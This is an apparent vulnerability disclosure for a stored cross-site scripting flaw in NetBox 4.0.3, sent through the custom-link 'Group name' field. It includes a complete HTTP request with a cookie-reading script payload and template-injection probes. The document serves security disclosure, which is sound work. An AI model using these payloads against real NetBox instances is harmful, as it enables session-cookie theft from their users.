 # **Description:**

Store XSS on the api /extras/custom-links/add/ or /extras/custom-links/{id}/edit of NetBox version 4.0.3 (https://github.com/netbox-community/netbox) allow remote attackers hijack user's cookies attack via param  Group name.

# **Proof of Concept:**

1, Add or Edit a Custom Link  with malicious script tags at param  Group Name

2, Access Object Type using Custom Link

3, Immediately boom, Stored XSS is executed

'''POST /extras/custom-links/add/ HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8000/extras/custom-links/add/
Content-Type: multipart/form-data; boundary=---------------------------300193789523924448502163188369
Content-Length: 1589
Origin: http://localhost:8000
Connection: close
Cookie: csrftoken=GPFwHFgQsCVRlXGYb2Efv9gKs2SXEiIN; sessionid=jv3bmrc6goo62qohlkckic0eolv7nrde
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=1

-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="csrfmiddlewaretoken"

oDVU0Umj4Oip7YXSKVBW5T4WgmBHvaJZUiqgxpsZmg36iLtGLN51qSawyejuZihC
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="name"

<h1>test</h1>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="object_types"

46
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="weight"

100
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="group_name"

<body onload=prompt(document.cookie)>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="button_class"

outline-dark
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"

on
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="new_window"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_text"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_url"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="_create"


-----------------------------300193789523924448502163188369--
'''
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/bf617022-880a-4c2a-a798-002a25da662b)
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/6ce2c08d-9ead-480f-8d4f-1f3e2954abbb)

# Impact:

hijack user's cookies
